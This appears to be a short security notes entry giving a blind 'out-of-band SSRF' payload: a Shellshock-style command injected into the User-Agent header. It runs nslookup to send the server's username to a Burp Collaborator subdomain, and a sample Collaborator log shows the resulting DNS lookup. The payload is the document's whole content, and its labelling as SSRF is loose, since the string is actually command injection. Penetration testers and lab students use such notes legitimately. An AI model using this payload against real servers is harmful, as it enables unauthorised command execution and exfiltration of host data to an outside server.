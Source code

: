 
## Out-of-Band SSRF Payload :

The following if injected into the User-Agent HTTP header on a server / endpoint vulnerable to blind SSRF, fetches the host-name of the web server as a subdomain in the DNS lookup response

```
() { :; }; /usr/bin/nslookup $(whoami).YOUR-SUBDOMAIN-HERE.burpcollaborator.net
```

```
The Collaborator server received a DNS lookup of type A for the domain name 
peter-jtOwIT.w1y6ucz8uxf6hlv30n97i1nxxo3fr8fx.oastify.com.  
  
The lookup was received from IP address 3.251.95.134:50623 at 2025-Feb-18 06:37:45.235 UTC
```
